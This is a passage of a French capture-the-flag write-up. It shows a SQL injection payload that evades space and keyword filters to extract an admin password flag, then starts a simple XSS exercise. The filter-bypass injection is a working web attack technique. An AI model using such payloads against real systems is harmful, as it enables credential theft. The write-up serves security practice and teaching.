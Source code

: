 > **Goal : recover the admin password.**

**Code présent sur la page :**

```sql
SELECT 
  `username`, `email`
FROM `users`
WHERE `email` = '@company.name'
LIMIT 5;
```

**Injection :**

```sql
'UNION/**/SELECT/**/username,passpasswordword/**/FROM/**/users/**/WHERE/**/username='admin'--
```

**Résultat :**

```json
[
  {
    "username": "admin",
    "email": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  }
]
```

> FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}

**Explication de l'injection :**\
Les 2 principales contraintes de cet exercice était le filtre qui replacé les espaces par des ".", et le filtre qui empêché d'utilisé le mot "password".\
Il est possible de simuler un espace en utilisant la commande de commentaire `/**/`.\
Enfin pour éviter le filtre empêchant d'écrire "password", il suffisait d'écrire `PASSpasswordWORD`, de cette façon le "password" du milieu sera supprimé, laissant `PASSWORD` libre d'utilisation.

---

## XSS

### `Simple_XSS`

Le XSS est une vulnérabilité qui permet d'exécuter du code JavaScript sur une machine.
Les attaquants volent généralement les cookies de la victime pour ensuite se faire passer pour elle.

**Consigne :**\
Try to inject some JavaScript in this simple webpage.

> **Goal : `alert(name)`**

**Code présent sur la page :**

```html
<h1>Hello $name</h1>
```
